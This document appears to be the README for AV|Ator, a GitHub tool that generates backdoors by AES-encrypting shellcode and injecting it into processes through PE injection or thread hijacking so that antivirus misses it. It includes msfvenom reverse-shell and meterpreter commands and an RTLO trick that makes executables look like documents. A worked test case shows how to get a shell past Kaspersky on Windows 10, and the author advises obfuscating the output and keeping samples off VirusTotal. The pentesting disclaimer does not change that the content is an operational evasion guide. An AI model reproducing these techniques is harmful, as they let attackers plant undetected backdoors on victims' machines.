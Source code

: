 ### Update 17/10/2019
It has been reported that the produced backdoor is no more undetectable from the majority of the AV solutions, which is indeed true and which is something I expected by the time that the software is getting more and more 'popular'. As a temporary solution I advise you to use a C# obfuscator on the produced executable. In my case, I used babel for net (http://www.babelfor.net/) with a great success for the majority of AV’s (including Kaspersky, Avast etc.). 


### DO NOT UPLOAD ANY SAMPLES TO VIRUS TOTAL ...as I did it one time for you

*Current Detection Rate*: 3/71

```SHA-256	e6a5299d4c081140a563ff5a64a94f1543480efeb78d5036f703004d64b4bed2

File name	t9jkoek.exe

File size	15.5 KB

Last analysis	2019-04-29 08:26:13 UTC
```

![Screenshot 2019-04-29 at 11 33 11](https://user-images.githubusercontent.com/4659186/56884557-d9899800-6a72-11e9-8bb5-95872da1407d.png)

# AV|Ator 

**About**://name

***AV**: AntiVirus*

***Ator**: Is a swordsman, alchemist, scientist, magician, scholar, and engineer, with the ability to sometimes produce objects out of thin air* (https://en.wikipedia.org/wiki/Ator)

#

**About**://purpose

**AV|Ator** is a backdoor generator utility, which uses cryptographic and injection techniques in order to bypass AV detection. More specifically:
- It uses AES encryption in order to encrypt a given shellcode 
- Generates an executable file which contains the encrypted payload
- The shellcode is decrypted and injected to the target system using various injection techniques 

[https://attack.mitre.org/techniques/T1055/]:

1. Portable executable injection which involves writing malicious code directly into the process (without a file on disk) then invoking execution with either additional code or by creating a remote thread. The displacement of the injected code introduces the additional requirement for functionality to remap memory references. Variations of this method such as reflective DLL injection (writing a self-mapping DLL into a process) and memory module (map DLL when writing into process) overcome the address relocation issue. 

2. Thread execution hijacking which involves injecting malicious code or the path to a DLL into a thread of a process. Similar to Process Hollowing, the thread must first be suspended.

### Usage

The application has a form which consists of three main inputs (See screenshot bellow):

![Screenshot 2019-04-29 at 11 41 21](https://user-images.githubusercontent.com/4659186/56884876-bca19480-6a73-11e9-8bbf-d249c4813e4e.png)


1.	A text containing the encryption key used to encrypt the shellcode 
2.	A text containing the IV used for AES encryption 
3.	A text containing the shellcode 

Important note: The shellcode should be provided as a C# byte array. 

The default values contain shellcode that executes notepad.exe (32bit). This demo is provided as an indication of how the code should be formed (using msfvenom, this can be easily done with the -f csharp switch, e.g. msfvenom -p windows/meterpreter/reverse_tcp LHOST=X.X.X.X  LPORT=XXXX -f csharp). 

After filling the provided inputs and selecting the output path an executable is generated according to the chosen options. 

### RTLO option

In simple words, spoof an executable file to look like having an "innocent" extention like 'pdf', 'txt' etc. 
E.g. the file "testcod.exe" will be interpreted as "tesexe.doc" 

Beware of the fact that some AVs alert the spoof by its own as a malware. 

### Set custom icon

I guess you all know what it is :)

### Bypassing Kaspersky AV on a Win 10 x64 host (TEST CASE) 

Getting a shell in a windows 10 machine running fully updated kaspersky AV 

#### Target Machine: Windows 10 x64 

1. Create the payload using msfvenom 

   ```msfvenom -p windows/x64/shell/reverse_tcp_rc4 LHOST=10.0.2.15 LPORT=443 EXITFUNC=thread RC4PASSWORD=S3cr3TP4ssw0rd -f csharp```

2. Use AVIator with the following settings

    Target OS architecture: x64

    Injection Technique: Thread Hijacking (Shellcode Arch: x64, OS arch: x64) 

    Target procedure: explorer (leave the default)

3. Set the listener on the attacker machine

4. Run the generated exe on the victim machine



### Installation

**Windows:**

Either compile the project or download the allready compiled executable from the following folder:

https://github.com/Ch0pin/AVIator/tree/master/Compiled%20Binaries

**Linux:**

Install Mono according to your linux distribution, download and run the binaries

e.g. in kali:

```
   root@kali# apt install mono-devel 
   
   root@kali# mono aviator.exe
```

### Credits
To Damon Mohammadbagher for the encryption procedure

### Disclaimer 

I developed this app in order to overcome the demanding challenges of the pentest procedure and this is the only way that the app should be used. Make sure that you have the required permission to use it against a system and never use it for illegal purposes. 
I would suggest to avoid testing the executables on solutions like virus total e.t.c. If you want to use the application for pentesting purposes I am sure you have already identified the AV used by your target, so go download a demo and make your testing offline. 


